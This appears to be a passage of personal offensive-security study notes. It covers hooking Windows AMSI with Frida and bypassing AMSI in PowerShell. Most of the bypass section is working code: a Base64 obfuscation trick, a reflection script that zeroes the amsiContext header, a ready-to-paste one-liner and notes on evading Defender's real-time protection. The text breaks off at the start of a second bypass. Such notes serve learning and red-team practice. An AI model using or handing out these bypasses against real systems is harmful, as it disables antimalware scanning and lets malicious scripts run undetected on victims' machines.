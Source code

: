 ### Best Practices

1. **Error Handling**: Ensure your scripts handle errors gracefully to avoid crashing the target process.
2. **Logging**: Use logging to understand the behavior of the hooked functions.
3. **Security**: Be aware of the legal and ethical implications of using Frida for reverse engineering and hooking.

Frida provides a powerful and flexible framework for dynamic instrumentation, allowing you to analyze and modify the behavior of applications at runtime.

#### Exercises:
	1. Modified onEnter and onExit in AmsiScanBuffer.js
		1. If one enters 'amsiutils' in Powershell session

![](Images/07-Frida-Logging.png)

![](Images/07-Frida-Logging-Pwsh-Failed.png)

			2. Result value of 32768 indicates a failed scan


	2. Bypass AMSI detection on Powershell command line
		1. couldn't break up string to bypass in Win11 (eg 'am'+'siutils')
		2. Could use Base64 encoding to bypass 7
```powershell
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("YW1zaXR1aWxzCg=="))
```
![](Images/07-Frida-Bypass-AmsiScanner.png)


### Bypassing AMSI with Reflection in Powershell

- Windows Defender will cause a block when obtaining a reference to a class if one is including the AmsiUtils string.
- Strategy is to search for AmsiUtils using `GetTypes` and searching for the string "iUtils"
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}
```
- PowerShell stores information about AMSI in managed code inside the _System.Management.Automation.AmsiUtils_ class

##### Overwrite the amsiContext header with zeros:
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}
$g=$f.GetValue($null)
[IntPtr]$ptr=$g
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
- this will force AmsiOpenSession to error out
- *Note:* had to run this 3-4 times on Win10 to get the header overwritten with zeros (was flagged by Defender...Real Time protection was *On*)
- one-liner:
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
- Another amsi bypass using amsiInitFailed (Win10...errors on Win11 arm)
```powershell
$a=[Ref].Assembly.GetTypes()
```